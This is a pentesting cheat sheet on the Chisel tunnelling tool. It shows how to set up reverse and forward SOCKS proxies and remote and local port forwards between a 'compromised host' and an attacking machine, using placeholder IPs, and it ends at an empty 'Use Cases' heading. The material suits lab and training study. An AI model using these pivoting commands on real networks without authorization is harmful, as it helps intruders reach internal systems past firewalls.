 ```yaml
---
description: >-
  Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.
  Single executable including both client and server. Written in Go (golang).
  Chisel is mainly useful for passing through firewal
---
```


# Chisel

{% embed url="https://github.com/jpillora/chisel" %}

### Reverse SOCKS Proxy

Reverse SOCKS Proxy connects back from a compromised server to a listener waiting on our attacking machine.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
"Note !!"
Despite connecting back to port `LISTEN_PORT`, the actual proxy has been opened on 127.0.0.1:`XXXX`. 
As such, we will be using port `XXXX` when sending data through the proxy.
```

* Note the use of `R:socks` in this command. "R" is prefixed to remotes when connecting to a chisel server that has been started in reverse mode. It essentially tells the **chisel client** that the server **anticipates the proxy** or **port forward** to be made at the **client side** (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server).

***

### Forward SOCKS Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections).

```bash
#Compromised host
./chisel server -p LISTEN_PORT --socks5

#Attacking machine
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

//PROXY_PORT - port that will be opened for the proxy.
```

* For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

***

### Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

// LISTEN_PORT - the port that started the chisel server on
// LOCAL_PORT - the port that needs to be opened on the attacking machine to link with the desired target port.
```

* For example ,assume that the IP is `172.16.0.20`, the compromised server `172.16.0.5`, and our target is port `22` on `172.16.0.10`.
* The syntax for forwarding `172.16.0.10:22` back to port `2222` on our attacking machine would be as follows: `./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &` Connecting back to the attacking machine, functioning as a chisel server started with: `./chisel server -p 1337 --reverse &`
* This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

***

### Local Port Forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

```bash
#Compromised host
./chisel server -p LISTEN_PORT

#Attacking machine
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

* For example, to connect to `172.16.0.5:8000` (the **compromised host** running a **chisel server**), forwarding our **local port** `2222` to `172.16.0.10:22` (our intended target), use: `./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

### Use Cases&#x20;
